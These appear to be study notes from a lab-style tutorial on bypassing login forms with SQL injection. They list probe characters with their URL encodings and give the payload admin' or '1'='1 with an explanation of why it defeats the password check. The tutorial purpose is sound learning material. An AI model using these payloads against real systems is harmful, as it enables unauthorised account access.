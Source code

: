 # Subverting Query Logic
### Authentication Bypass

![[Pasted image 20250605143810.png]]
We can log in with the administrator credentials admin / p@ssw0rd.
![[Pasted image 20250605143818.png]]

Web login forms often use SQL queries like:

```sql
SELECT * FROM logins WHERE username='admin' AND password='p@ssw0rd';
```

The goal of SQLi in this context is to bypass authentication by altering query logic using injection.
### Step 1: Test for SQLi Vulnerability

Try injecting payloads in the input fields to observe abnormal behavior or syntax errors:

| Payload | URL Encoded |
| ------- | ----------- |
| `'`     | `%27`       |
| `"`     | `%22`       |
| `#`     | `%23`       |
| `;`     | `%3B`       |
| `)`     | `%29`       |

```sql
SELECT * FROM logins WHERE username=''' AND password='something';
```

Result: SQL syntax error due to unbalanced quotes.
### Step 2: OR-based SQL Injection

Injecting the OR condition to force the WHERE clause to always return true.

Injected Username:

```sql
admin' or '1'='1
```

Final query:

```sql
SELECT * FROM logins WHERE username='admin' or '1'='1' AND password='something';
```
#### Logical Evaluation:

- `AND` evaluated before `OR`    
- `password='something'` evaluates to false
- `OR '1'='1'` ensures the entire query returns true
